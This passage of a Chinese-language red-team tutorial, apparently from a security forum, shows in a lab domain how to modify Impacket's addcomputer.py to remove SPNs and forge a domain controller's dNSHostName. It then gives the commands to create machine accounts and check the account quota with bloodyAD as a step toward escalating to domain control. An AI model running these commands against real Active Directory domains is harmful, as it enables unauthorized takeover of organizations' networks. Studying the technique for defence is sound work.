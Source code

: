 ```txt
域控主机名：DC-WIN2012
域名：redteam.com
CA名称：redteam-DC-WIN2012-CA
```

2 构造合适的机器账户
-----------

### 0x01 魔改addcomputer.py创建机器账户

在获取到普通域用户的权限后，使用[Impacket](https://github.com/SecureAuthCorp/impacket)工具包中的`addcomputer.py`脚本创建一个机器账户，命名为WUHU，密码设置为Passw0rd  
在上述分析中，需要修改部分SPN值，而原版本的addcomputer.py脚本中spn设置了`RestrictedKrbHost/[COMPUTERNAME].redteam.com`和`HOST/[COMPUTERNAME].redteam.com`两个SPN值，这里需要对`addcomputer.py`进行魔改下，将这两个SPN值注释掉，避免间接约束

![Orbk3q.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-5a37d49da6998da7cd44ad82671bc1a5d8fca399.png)

接着，并且修改机器账户的dNSHostName，用于伪造域控机器账户`DC-WIN2012$`，其中`DC-WIN2012`是域控主机名

![OrHzDS.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-115ffbd7c333433b3b18b2663d27e65f0be756db.png)  
魔改好后，直接使用addcomputer.py添加机器账户，命令如下：

```shell
# 创建机器账户
proxychains python3 addcomputer.py redteam.com/user001:123.com -method LDAPS -computer-name WUHU\$ -computer-pass Passw0rd -dc-ip DC-WIN2012.redteam.com
```

![OrbSHg.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-09521a9b0004fdf00f93d13e8576e878f09f6183.png)

### 0x02 使用bloodyAD工具

[bloodyAD](https://github.com/CravateRouge/bloodyAD)工具是一个Active Directory权限提升框架

**判断用户能否创建机器账户**

```shell
# 判断用户能否创建机器账户
proxychains python3 bloodyAD.py -d redteam.com -u user001 -p '123.com' --host 10.10.1.10 getObjectAttributes 'DC=redteam,DC=com' ms-DS-MachineAccountQuota
```

返回时表示该用户最多可以创建10个机器账户

![OyDJYQ.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-e805fef137a5d5230ca9cb2cfc908ebb212a8238.png)

**创建机器账户**

```shell
proxychains python3 bloodyAD.py -d redteam.com -u user001 -p '123.com' --host 10.10.1.10 addComputer bloodyAD 'Passw0rd'
```

![OyDFeK.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-89c1d7d539b4870bbc74270d312f4cdd462a05f6.png)

